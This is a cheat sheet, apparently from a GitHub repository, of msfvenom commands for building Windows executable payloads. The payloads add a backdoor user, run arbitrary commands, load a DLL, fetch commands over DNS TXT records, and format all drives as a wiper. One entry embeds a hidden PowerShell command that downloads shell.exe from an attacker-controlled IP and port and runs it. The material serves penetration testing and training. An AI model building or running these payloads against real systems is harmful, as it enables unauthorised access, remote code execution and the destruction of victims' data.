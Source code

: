 # Exec Payloads

## 01 - Add User Windows Exec Payload

### 1.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/adduser user=<username> pass=Password1234! wmic=[true | false] custom=<group_name>
```

## 02 - DNS TXT Query Exec Windows Payload

### 2.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/dns_txt_query_exec dnszone=<domain.com> -f exe -o dns-query-x86.exe
```

## 03 - Execute Windows Exec Payload

### 3.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/exec cmd=<commands> -f exe -o exec-x86.exe
```

### 3.2 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/exec cmd=<commands> -f exe -o exec-x64.exe

$ msfvenom -p windows/x64/exec cmd="powershell.exe -w hidden -noni -nop -c \"IEX (new-object net.webclient).downloadfile('http://<IP>:<PORT>/shell.exe', 'C:\Windows\Temp\shell.exe');start-process C:\Windows\Temp\shell.exe\"" -f exe -o exec-x64.exe
```

## 04 - Text-To-Speech Windows Exec Payload

```
$ msfvenom -p windows/speak_pwned -f exe -o speak-x86.exe
```

## 05 - Format All Drives Windows Exec Payload

```
$ msfvenom -p windows/format_all_drives volumelabel=<label> -f exe -o wiper-x86.exe
```

## 06 - Messagebox Windows Exec Payload

### 6.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x86.exe
```

### 6.2 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/messagebox exitfunc=<seh | thread | process | none> icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> title=<title> text=<text> -f exe -o msgbox-x64.exe
```

## 07 - LoadLibrary Windows Exec Payload

### 7.1 - x86 (32-bit) Payloads

```
$ msfvenom -p windows/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x86.exe
```

### 7.2 - x86-64 (64-bit) Payloads

```
$ msfvenom -p windows/x64/loadlibrary exitfunc=<seh | thread | process | none> dll=C:\\path\\to\\file.dll -f exe -o load-dll-x64.exe
```